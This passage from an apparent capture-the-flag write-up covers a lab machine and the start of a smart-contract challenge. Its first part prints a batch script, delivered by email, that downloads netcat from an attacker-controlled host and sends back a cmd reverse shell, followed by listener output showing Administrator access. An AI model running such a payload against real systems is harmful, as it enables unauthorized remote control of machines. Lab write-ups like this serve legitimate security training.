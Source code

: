To get a reverse shell using this method, we can simply create another batch script that downloads `netcat` to the machine and uses it to send a shell to our machine.

```batch
@echo off
powershell curl http://10.11.72.22/nc64.exe -o C:\Windows\Temp\nc64.exe
C:\Windows\Temp\nc64.exe 10.11.72.22 443 -e cmd
```
{: file="rev.bat" }

Once again, we send another email, this time attaching the `rev.bat` file.

After some time, we see a request made to our web server for `nc64.exe`.

```console
10.10.53.24 - - [10/Nov/2024 04:34:07] "GET /nc64.exe HTTP/1.1" 200 -
```

And we get a shell in our listener as `Administrator` and can read the flag at `C:\Users\Administrator\Desktop\root.txt`.

```console
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.53.24] 50188
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
fisher\administrator

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{[REDACTED]}
```

## Act III

For the final act, we are tasked with hacking a smart contract.

Visiting `http://10.10.15.184/`, we find the source code for the contract along with all the information needed to interact with it.

![Act3 Web 80 Index](act3_web_80_index.webp){: width="1200" height="800" }

The contract is fairly simple. When it is deployed, it sets the balance for the address that deployed the contract to **1000** and to solve the challenge, we need to make the balance for the owner equal to **0**.

```javascript
contract Challenge {
    mapping(address => uint256) public balances;
    bool public you_solved_it = false;
    address public owner;

    constructor() {
        owner = msg.sender;
        balances[owner] = 1000;
    }
...
    function isSolved() external view returns (bool) {
         //return you_solved_it;
         return (balances[owner] == 0);
    }

}
```
